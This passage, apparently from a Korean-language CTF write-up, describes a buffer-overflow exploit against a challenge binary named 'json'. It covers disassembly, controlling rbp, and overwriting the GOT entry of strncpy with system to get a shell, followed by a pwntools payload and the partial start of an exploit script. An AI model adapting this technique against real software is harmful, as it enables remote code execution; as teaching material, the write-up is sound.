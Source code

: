 ``` text
.text:000000000040217C  call    _strncpy
.text:0000000000402181  nop
.text:0000000000402182  leave
.text:0000000000402183  retn
```
`read`의 인자인 `rsi`가 `rbp`를 통해 설정되는데, BOF를 통해 `rbp`는 얼마든지 컨트롤 할 수 있으므로 AAW도 가능한 상황이다.

여기에서 GOT overwrite를 생각했고, `strncpy`의 `rdi`가 `session->memo`로 설정되는 것을 이용하여 미리 `/bin/sh`를 넣어두면 쉘 실행이 가능할 것으로 판단했다.
``` python
    read_strncpy_gadget = 0x40214C
    payload = b"/bin/sh\n" * 2
    payload += p64(elf.got['strncpy'] + 0x10)   # rbp
    payload += p64(read_strncpy_gadget)         # ret
    update_memo(s, token, payload)

    sleep(0.5)
    payload = p64(0x4010a0)                     # system
    s.send(payload)
```

## 0x03. Payload
``` python
from pwn import *
from pwnlib.util.packing import p32, p64, u32, u64
from time import sleep
from argparse import ArgumentParser

BINARY = "json"
LIBRARY = "libc.so.6"
CONTAINER = "f0268ff749ca"

code_base = 0x555555554000
bp = {
    'main' : code_base + 0x16ae,
}

gs = f'''
b *update_memo
continue
'''
context.terminal = ['tmux', 'splitw', '-hf']

def create_session(s, user, pw):
    json = f"{{method:CreateSession,user:{user},pass:{pw}}}"
    s.send(json.encode())
    return s.recvuntil(b"}\n")

def clear_session(s):
    json = f"{{method:ClearSession}}"
    s.send(json.encode())
    return

def create_user(s, token, user, pw, memo):
    json = f"{{token:{token},method:CreateUser,user:{user},pass:{pw},memo:{memo}}}"
    s.send(json.encode())
    return

def check_user(s, token):
    json = f"{{token:{token},method:CheckUser}}"
    s.send(json.encode())
    return s.recvuntil(b"}\n")

```